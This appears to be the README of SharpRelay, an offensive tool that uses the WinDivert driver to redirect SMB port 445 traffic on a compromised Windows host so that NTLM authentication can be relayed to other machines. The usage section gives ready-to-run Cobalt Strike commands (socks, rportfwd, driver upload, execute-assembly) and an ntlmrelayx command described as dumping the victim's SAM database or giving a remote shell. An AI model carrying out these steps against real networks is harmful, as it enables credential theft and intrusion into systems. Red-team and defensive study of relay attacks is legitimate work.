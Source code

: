 ## Usage

The only requirement for this attack to work is to have a beacon with **local administrator** privileges or with the ability to load drivers. The attack using SharpRelay works as follows:

* Upload the **signed** WinDivert driver into any folder on the compromised host
* Run SharpRelay to modify the destination port of the incoming packets on port 445 and redirect them to another port (e.g. 8445)
* From our beacon run the Cobalt Strike's `rportfwd` command to forward port 8445 of the compromised host to our teamserver's port 445.
* Start a socks server to forward the relayed traffic back to the victim network
* Run Impacket's ntlmrelayx with proxychains to do the SMB relay
* When a victim tries to access port 445 of the compromised host the NTLM authentication will be forwarded to our teamserver and relayed to another machine

The following example commands can be run from Cobalt Strike to perform these actions:

```
socks 4444
rportfwd 8445 127.0.0.1 445
cd C:\Users\victim
upload /root/Desktop/intercept.sys
execute-assembly /root/Desktop/SharpRelay.exe fakeservice C:\Users\victim\intercept.sys 445 8445
```

When all the above execute successfully you need to start your relay server (configure proxychains to the port specified in the above commands, e.g. 4444):

```
proxychains ntlmrelayx.py -t smb://<VICTIM-IP> -smb2support
```

The above command will dump the SAM database from the victim host. It is also possible to gain an interactive SMB shell as well as execute commands remotely on the victim.

SharpRelay has been tested against Win10 x64.

## Build Instructions

If you want to build the tool from source you can do the following:

* Clone the repo

* Ensure you can see all NuGet packages in the Installed tab by opening Project->Manage NuGet Packages in Visual Studio

* Build project

The above instructions have been tested using Visual Studio 2019.

## Technical Details

SharpRelay is based on the [WinDivert](https://github.com/basil00/Divert) driver. According to it's description, WinDivert is a kernel driver that allows for user-mode packet interception and modification. The user needs to specify a filter and any packets that match this filter will be intercepted and can be modified. 

From the ReadMe file:

```
The WinDivert.sys driver is installed below the Windows network stack.  The
following actions occur:

(1) A new packet enters the network stack and is intercepted by WinDivert.sys
(2a) If the packet matches the PROGRAM-defined filter, it is diverted.  The
    PROGRAM can then read the packet using a call to WinDivertRecv().
(2b) If the packet does not match the filter, the packet continues as normal.
(3) PROGRAM either drops, modifies, or re-injects the packet.  PROGRAM can
    re-inject the (modified) using a call to WinDivertSend().
```

For us, them most important thing that WinDivert allows us to do is that we can intercept traffic going to an open Windows port and redirect it to another port by modifying the TCP source and destination ports of each packet, recalculating the TCP checksums and reinjecting the packets into the network stack.

On Windows, port 445 is always running by default. I won't go into detail about the process using port 445 because this is already analysed in the following post, so please go ahead and read it:

* https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/

The above post also contains another interesting idea. Using WinDivert to perform an SMB relay attack via Metasploit. You can upload a few DLLs and a driver file to the target host along with the divertTCPconn.exe and execute them. I found this attack to be awesome, but what I didnt like was that you had to upload multiple DLLs on the target host. 

So my goal was to do the same attack by dropping the minimum amount of files on disk and also executing the attack through Cobalt Strike.

First of all, I wanted to make use of Cobalt Strike's `execute-assembly` function so I decided to write my code using the .NET framework. My initial thought would be to re-write divertTCPconn in C# and then everything would work. It turns out that this was very complicated. Fortunately, I found the following NuGet package written by TechnikEmpire:

* https://github.com/TechnikEmpire/WinDivertSharp

Using WinDivertSharp, I was able to write SharpRelay to load the driver by creating a service and communicate with the WinDivert driver to perform any packet modification I needed. 